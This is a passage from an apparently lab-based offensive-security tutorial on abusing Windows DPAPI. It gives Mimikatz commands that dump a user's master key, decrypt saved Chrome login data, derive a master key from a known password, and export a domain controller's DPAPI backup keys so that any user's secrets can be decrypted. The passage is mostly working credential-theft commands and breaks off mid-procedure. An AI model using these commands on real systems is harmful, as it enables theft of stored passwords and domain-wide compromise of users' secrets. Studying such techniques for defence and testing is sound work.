 {% code title="attacker@victim" %}
```
sekurlsa::dpapi
```
{% endcode %}

We see there is the master key for user `spotless`:

![](<../../.gitbook/assets/Screenshot from 2019-04-13 16-03-34.png>)

Let's now use that master key for `spotless` to decrypt those Chrome secrets we could not earlier:

{% code title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 16-05-55.png>)

Additionally, note that if the user is not logged on, but you have their password, just spawn a process with their creds and repeat the above steps to retrieve their secrets.

### Retrieving MasterKey with User's Password

Same could be achieved if user's SID, their logon password and master key's GUIDs are known:

{% code title="attacker@victim" %}
```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 18-02-42.png>)

## Extracting DPAPI Backup Keys with Domain Admin

It's possible to extract DPAPI backup keys from the Domain Controller that will enable us to decrypt any user's master key which in turn will allow us to decrypt users' secrets.

While running as a `Domain Admin`, let's dump the DPAPI backup keys:

{% code title="attacker@victim" %}
```csharp
lsadump::backupkeys /system:dc01.offense.local /export
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 16-57-55.png>)

Using the retrieved backup key, let's decrypt user's `spotless` master key:
